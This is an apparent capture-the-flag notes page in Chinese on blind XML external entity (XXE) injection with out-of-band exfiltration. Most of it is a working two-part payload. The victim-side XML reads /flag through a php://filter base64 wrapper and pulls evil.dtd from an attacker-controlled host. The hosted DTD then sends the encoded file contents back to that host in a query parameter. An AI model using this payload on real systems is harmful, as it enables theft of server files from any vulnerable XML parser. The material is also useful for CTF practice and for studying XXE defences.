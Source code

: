 tags:: CTF/XXE

- # 思路
	- 无回显XXE [[CTF/XXE]]
	- 利用OOB
- # Payload
	- 受害者
		- ```xml
		  <!DOCTYPE updateProfile [
		      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
		      <!ENTITY % dtd SYSTEM "http://ca.xxx.xyz:3001/evil.dtd">
		      %dtd;
		      %send;
		  ]>
		  ```
	- 服务器
		- ```dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```
